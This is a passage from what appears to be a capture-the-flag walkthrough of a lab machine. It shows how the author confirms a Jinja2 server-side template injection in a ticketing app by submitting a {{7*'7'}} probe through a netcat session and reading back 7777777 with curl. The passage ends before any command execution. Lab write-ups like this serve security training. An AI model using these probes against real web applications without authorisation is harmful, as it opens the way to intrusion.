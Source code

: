 ### Exploit Djinja2 template
Searching for Werkzeug exploits on the Internet led me to this interestin [post](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) that says:

“You can try to probe {{7*'7'}} to see if the target is vulnerable. It would result in 49 in Twig, 7777777 in Jinja2, and neither if no template language is in use”

Let’s try by ourselves:
```
kali@kali:~$ nc djinn.box 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open     
Title: {{7*'7'}}
Description: {{7*'7'}}
> exit
kali@kali:~$ curl -s http://djinn.box:5000/ | html2text 

**** This ticketing software is under development, if you find any issue please
report it to admin ****
# ID   Title                                              Status      Link
1 2792 Add authentication to the ticket managment system. open        link
2 4567 Remove default user guest from the ticket creation open        link
       service.
3 8345 Error while updating postgres queries              In progress link
4 7723 Jack will temporarily handling the risk limit UI   open        link
5 2984 Update the user information                        In progress link
6 2973 Complete the honeypot project                      In progress link
7 2366 test                                               open        link
8 1480 {{7*'7'}}                                          open        link
```
Our new ticket wiyth ID 1480 has been created and getting the details reveals that our payload has been interpreted as a serie of 7, which confirms that the template system is Jinja2.
```
kali@kali:~$ curl -s http://djinn.box:5000/?id=1480

        <html>
            <head>
            </head>

            <body>
                <h4>7777777</h4>
                <br>
                <b>Status</b>: open
                <br>
                <b>ID</b>: 1480
                <br>
                <h4> Description: </h4>
                <br>
                7777777
            </body>
             <footer>
              <p><strong>Sorry for the bright page, we are working on some beautiful CSS</strong></p>
             </footer> 
        </html>
```
Now with this hint, I searched for Jinja2 command injection and found these resources:
